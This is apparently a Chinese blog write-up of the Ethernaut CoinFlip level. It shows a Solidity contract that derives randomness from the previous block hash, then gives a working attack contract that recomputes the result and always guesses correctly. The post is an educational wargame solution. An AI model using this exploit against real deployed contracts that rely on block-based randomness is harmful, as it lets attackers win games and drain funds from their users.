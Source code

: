 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-2'
date: 2022-12-7 16:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'





---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第三关coinflip 思路与POC

##### 目标: 猜对10次flip函数得出的结果

#### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    //核心逻辑:利用区块高度-1除以FACTOR得出随机数
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

#### 乍一看似乎没有问题,实际上纯粹使用链上数据生成的随机数就必然能够被恶意合约利用.

##### poc思路:game_die: :恶意合约只需要根据coinfilp合约生成随机数的核心逻辑复刻一份即可,只要两份合约部署在同一链上就能利用

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

//复制一份CoinFlip合约代码
import "./CoinFlip.sol";

contract hackFilp  {

   uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
   //根据合约地址取得实例
   CoinFlip public filp =  CoinFlip(0x515f81b42E60D8ad5b15FbD43330A3b5bD3D8574);
 

  function hackFlip(bool _guess) public {
    
    // 需要hack合约上的随机数生成逻辑
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;

    bool side = coinFlip == 1 ? true : false;
     
     //扭转错误的猜测
    if (side == _guess) {
        filp.flip(_guess);
    } else {
   
        filp.flip(!_guess);
    }
}

}
```

![info](./assets/1670489224267.png)